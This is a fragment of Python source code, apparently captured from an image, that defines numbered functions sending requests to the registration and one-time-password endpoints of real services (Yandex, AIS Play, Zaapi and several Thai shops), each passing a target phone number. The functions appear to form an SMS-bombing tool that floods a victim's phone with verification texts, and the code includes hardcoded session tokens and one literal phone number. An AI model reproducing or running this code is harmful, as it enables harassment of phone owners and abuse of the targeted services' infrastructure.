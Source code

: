     post("https://www.fooddiaryonlineshop.com/RegisterNewCustomer",headers=header,data=f"__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=Ble7%2FRYu%2F1RjtS%2FfO9KgKdBWKCntkuS%2F0x7Qh6w4mnY7kV82h741dj1JFc5xnFbW7yacbboe0%2B5nTVVF%2BFSGEHQvaTkL4HQ5qDJbZMBQEt73YZZ%2FZON2LWw193tcYCjDwL3y3vy3lks%2BduyUOCNMwlwNpfrPDsvbhgT4qDCekWgvnnFrzFGCtQYO6cTU3Lax6YpvUbBld0oKgkWcHg0efFp3K2S2fLx%2BK4oTVGr6bq1QdKl5uPHqtL04IHkdy7X6Wbf6lUTQgOa5q5wLfE2KUGHWUUsYjahMwHmRCaVSxB7P1eDmiZ%2BQNku9pHs7m50GtCSePXPSfYtFBumDCM2R1XklFOdYV4X1jJgt%2Fe3MGV1Xmj7cRE%2FsBk1u%2FMYfN%2BmXb5dxruqgDuhXAnWP%2F8Syot1XGEUtVclmfF5NIB0KkCu6He8dheN%2BhEkupLqzP6Ip6OAMNnvssm1rMngwDy7ipCNC3dPXMj83IpBuuD1LWbPr3x3ksf0%2FrGL4yM7jvr8a99ifPcJPcmJzY%2Feay0PKwdwA3u2KTyCoXVgMZwqvsdRoyRHlFooZ3AHoBNsQrkegtyk5eHtjpBTLHD1dzQT3R%2FRaYIbencMw%2B5BbVJWiPzVTXF%2BiQ9A64UcUP9adMciJa7TudfL331vSRd%2FwVMkA%2B1fDtVrfBBi8%2BHbta7BsuVjk0ZodiLMuloOsYaTSilSLmidUpEZFsj0Zhz%2FpwGu%2FGKMixcG95PmRkOdpAj4d2D8%3D&__VIEWSTATEGENERATOR=94756D41&ctl00%24MainContent%24PageGUIDForSession=&ctl00%24MainContent%24rdEmail=U&ctl00%24MainContent%24rdMobile=C&ctl00%24MainContent%24cbpEmptry%24txtMobileNo%24State=%7B%26quot%3BrawValue%26quot%3B%3A%26quot%3B{phone}%26quot%3B%2C%26quot%3BvalidationState%26quot%3B%3A%26quot%3B%26quot%3B%7D&ctl00%24MainContent%24cbpEmptry%24txtMobileNo=0958816629&ctl00%24MainContent%24cbpEmptry%24txtOTP%24State=%7B%26quot%3BrawValue%26quot%3B%3A%26quot%3B%26quot%3B%2C%26quot%3BvalidationState%26quot%3B%3A%26quot%3B%26quot%3B%7D&ctl00%24MainContent%24cbpEmptry%24txtOTP=&ctl00%24MainContent%24cbpEmptry%24chkRead=U&ctl00%24MainContent%24cbpEmptry%24chkConsent=U&DXScript=1_16%2C1_17%2C1_28%2C1_66%2C1_18%2C1_19%2C1_20%2C1_21%2C1_224%2C1_225%2C1_230%2C1_229%2C1_51%2C1_22%2C1_14%2C1_226%2C1_52&DXCss=1_248%2C1_69%2C1_71%2C1_250%2C1_247%2C1_75%2C1_74%2C1_251%2C%2FContent%2Fcss%3Fv%3DFILIkBdKK0FrNSvnRmezf5qTxic9NR7FOzzIJ8iQAKQ1%2Cfavicon.ico%2C..%2F..%2FContent%2Fbootstrap.min.css%2CStyles%2Fbutton.css&__CALLBACKID=ctl00%24MainContent%24cbpEmptry&__CALLBACKPARAM=c0%3ARequestOTP&__EVENTVALIDATION=N%2FlR5TtQKjdRNUQy0QFSjIjFW06D%2Fdy2VFm5Zl%2FTN%2FlsEYUsQVZwH8qpQ5sFzI0PBX2ZLH3HhxXkkZRvuada%2Bu6zsHxSgV3In38ahlf75%2Blm%2BguMSbwp%2FSxuo4Cc3cm5ZFVYYR9eVfvdwG4YsxWYbA%3D%3D")

    

#yandex

def api100(phone):

    post("https://passport.yandex.com/registration-validations/phone-confirm-code-submit",headers=header,data=f"track_id=b3dc4a29a19d038f1cd522187726d7bb5a&csrf_token=e150046ff026a517c15d45444294ffa3275b140c%3A1645857142788&number={phone}&isCodeWithFormat=true&confirm_method=by_sms")

    

def api101(phone):

    session = Session()

    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text

    res=session.post("https://srfng.ais.co.th/api/v2/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": useragent,"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})

def api102(phone):

    post("https://api.zaapi.co/api/store/auth/otp/login",json={"phoneNumber":f"+66{phone[1:]}","namespace":"zaapi-buyers"},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})

def api103(phone):

    get(f"https://bkk-api.ks-it.co/Vcode/register?country_code=66&phone={phone}&sms_type=1&user_type=2&app_version=4.3.25&device_id=79722530562d973f&app_device_param=%7B%22os%22%3A%22Android%22%2C%22app_version%22%3A%224.3.25%22%2C%22model%22%3A%22A37f%22%2C%22os_ver%22%3A%225.1.1%22%2C%22ble%22%3A%220%22%7D&language=th&token=")
